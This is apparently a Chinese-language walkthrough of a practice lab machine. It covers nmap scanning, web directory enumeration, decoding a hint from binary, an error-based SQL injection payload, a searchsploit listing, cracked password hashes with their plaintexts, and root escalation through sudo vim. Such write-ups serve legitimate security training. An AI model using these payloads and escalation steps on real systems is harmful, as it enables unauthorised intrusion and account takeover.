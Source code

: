 
## 扫描

> 靶机进行强度太高的扫描会断开连接

```
nmap -sS -A -p1-10000 --min-rate 10000 192.168.80.131
```


## web渗透

```
首页暴露了目录和用户还有可能的中间件信息

html_pages

patrick

Powered by IIS 6.0

访问html_pages得到目录
	-rw-r--r-- 1 www-data www-data      285 Sep 26 17:46 about.html
	-rw-r--r-- 1 www-data www-data     1049 Sep 26 17:51 config.html
	-rw-r--r-- 1 www-data www-data      199 Jul 23 15:37 default.html
	-rw-r--r-- 1 www-data www-data     1086 Sep 28 09:22 development.html
	-rw-r--r-- 1 www-data www-data      446 Jun 14 01:37 downloads.html
	-rw-r--r-- 1 www-data www-data      285 Sep 26 17:53 error.html
	-rw-r--r-- 1 www-data www-data        0 Sep 28 09:23 html_pages
	-rw-r--r-- 1 www-data www-data      751 Sep 28 09:22 index.html
	-rw-r--r-- 1 www-data www-data      202 Sep 26 17:57 login.html
	-rw-r--r-- 1 www-data www-data      682 Jul 23 15:36 register.html
	-rw-r--r-- 1 www-data www-data       74 Jul 23 16:29 tryharder.html
	-rw-r--r-- 1 www-data www-data      186 Sep 26 17:58 uploads.html

对全部目录进行访问

# about.html
暴露出的信息：David ，Good Tech

# config.html
无

# default.html和register.html
	01001000 01010101 01001000 00111111 
	
	01010011 01110101 01110010 01100101 01101100 01111001 00100000 01100100 01100101 01110110 01100101 01101100 01101111 01110000 01101101 01100101 01101110 01110100 00100000 01110011 01100101 01100011 01110010 01100101 01110100 00100000 01110000 01100001 01100111 01100101 00100000 01101001 01110011 00100000 01101110 01101111 01110100 00100000 01110100 01101000 01100001 01110100 00100000 01101000 01100001 01110010 01100100 00100000 01110100 01101111 00100000 01100110 01101001 01101110 01100100 00111111
解码：
for i in $(cat 1.txt);do echo "obase=16;ibase=2;$i" | bc | xxd -r -p;done
得到
HUH?
Surely development secret page is not that hard to find?

downloads.html
得到test.pcap


```
> **wireshark查看**
![[Pasted image 20240120124237.png]]
>得到/developmentsecretpage/directortestpagev1.php


> secret 目录结构

```
developmentsecretpage/
	directortestpagev1.php
	patrick.php
	sitemap.php?logout=
	securitynotice.php
```

> evelopmentsecretpage目录下的发现

```
得到用户
intern
patrick
david

' or updatexml(1,concat(0x7e,database(),0x7e),1)#



```


Webfroot Shoutbox 2.32 - 'Expanded.php' Directory Traversal                                                                                                                    | php/webapps/22705.txt
Webfroot Shoutbox 2.32 - 'Expanded.php' Remote Command Execution                                                                                                               | php/webapps/22702.pl
Webfroot Shoutbox 2.32 - 'URI' File Disclosure                                                                                                                                 | php/webapps/22671.txt
Webfroot Shoutbox 2.32 - 'Viewshoutbox.php' Cross-Site Scripting                                                                                                               | php/webapps/23474.txt
Webfroot Shoutbox 2.32 - Remote Command Execution                                                                                                                              | php/webapps/22687.pl
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution 

>通过测试登录，发现报错函数和一个路径文件信息

google搜索：`site: https://www.exploit-db.com/ slogin_lib.inc.php`

得到用户凭据存储文件名

admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81 ：12345678900987654321
patrick, 87e6d56ce79af90dbe07d387d3d0579e：P@ssw0rd25
qiu, ee64497098d0926d198f54f6d5431f98： qiu

## smb枚举

> smbclient //192.168.80.131/access -U intern 没有任何发现


## 提权
```
进行ssh登录发现patrick有sudo权限的vim

sudo /usr/bin/vim

:!/bin/sh
```

